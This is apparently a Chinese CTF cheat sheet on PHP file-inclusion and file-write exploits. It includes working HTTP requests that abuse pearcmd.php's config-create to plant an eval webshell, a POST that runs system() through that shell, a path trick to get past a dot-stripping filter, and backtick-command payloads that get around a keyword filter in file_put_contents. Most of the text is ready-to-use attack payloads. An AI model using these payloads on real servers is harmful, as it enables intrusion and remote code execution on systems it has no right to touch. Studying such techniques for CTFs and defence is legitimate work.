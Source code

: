 
## **pearcmd.php文件包含**
已知文件包含：include $_GET['c'].".php";
裸文件包含, 没有上传点, 可供尝试的只有包含pearcmd.php文件，直接写木马。
包含pearcmd.php用?c=pearcmd
同时写木马到目录下的test.php
```
GET /index.php?+config-create+/&c=pearcmd&/<?=@eval($_POST['cmd']);?>+/var/www/html/test.php HTTP/1.1
```

在/var/www/html下写入webshell
```
POST /test.php HTTP/1.1

Content-Type: application/x-www-form-urlencoded
Content-Length: 26

cmd=system("cat 36d.php");
```
也可<https://www.cnblogs.com/Egcrying/p/17665041.html>

^
场景2：
```
function waf($path){
    $path = str_replace(".","",$path);
    return preg_match("/^[a-z]+/",$path);
}

if(waf($_POST[1])){
    include "file://".$_POST[1];
}
```
如果知道pearcmd.php路径
```
GIT写木马
/?+config-create+/<?=eval($_POST[2]);?>+/var/www/html/a.php 

POST包含pearcmd.php
1=localhost/usr/local/lib/php/pearcmd.php
```




^
^
^
## **php伪协议写文件**
### **file_put_contents()场景写文件漏洞**
#### **1、写后门过滤绕过**
对于
```
if(preg_match("/'| |_|php|;|~|\\^|\\+|eval|{|}/i",$input)){
        die('hacker!!!');
}
file_put_contents("index.php", $input)
```
可以传入绕过
```
<?=`ls\t/*`?>
<?=`cat\t/flllllll1112222222lag`?>
```
